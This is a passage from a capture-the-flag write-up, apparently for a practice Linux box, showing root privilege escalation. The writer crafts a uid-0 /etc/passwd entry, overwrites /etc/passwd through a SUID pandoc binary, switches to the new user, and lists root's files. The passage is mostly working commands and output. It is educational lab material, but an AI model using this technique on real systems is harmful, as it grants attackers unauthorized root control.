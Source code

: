```shell
pwned:\$1\$p8wH6NOk\$1GHNwFm6Zyt5.5Rlfn6Qf.:0:0:pwned:/root:/bin/bash
```

- Override the `/etc/passwd` via SUID `pandoc` binary:

```shell
architect@matrixV99:~$ cat /tmp/passwd_mod | /usr/bin/pandoc -t plain -o /etc/passwd

architect@matrixV99:~$ tail -n 1 /etc/passwd
pwned:$1$p8wH6NOk$1GHNwFm6Zyt5.5Rlfn6Qf.:0:0:pwned:/root:/bin/bash
```

**Yes! We now can Switch User to our newly created user:**
```shell
architect@matrixV99:~$ su pwned
Password: 
root@matrixV99:/home/architect# whoami;hostname;id;ip a
root
matrixV99.2
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:ed:e4:eb:73:43 brd ff:ff:ff:ff:ff:ff
    inet 10.10.95.198/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 3242sec preferred_lft 3242sec
    inet6 fe80::ed:e4ff:feeb:7343/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**However, we didn't find the root flag in  `/root`:**
```shell
root@matrixV99:/home/architect# ls -lah /root
total 56K
drwx------  6 root root 4.0K Mar 10  2021 .
drwxr-xr-x 23 root root 4.0K Feb 25  2021 ..
lrwxrwxrwx  1 root root    9 Mar 10  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
drwx------  3 root root 4.0K Jan 30  2021 .cache
drwx------  3 root root 4.0K Dec 30  2020 .gnupg
drwxr-xr-x  3 root root 4.0K Dec 23  2020 .local
-rw-------  1 root root  11K Jan 30  2021 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Jan 27  2021 .selected_editor
drwx------  2 root root 4.0K Dec 30  2020 .ssh
-rwx------  1 root root 1.8K Jan 27  2021 SSH-TOTP-timeSimulator.py
-rw-r--r--  1 root root  227 Mar  9  2021 .wget-hsts
```
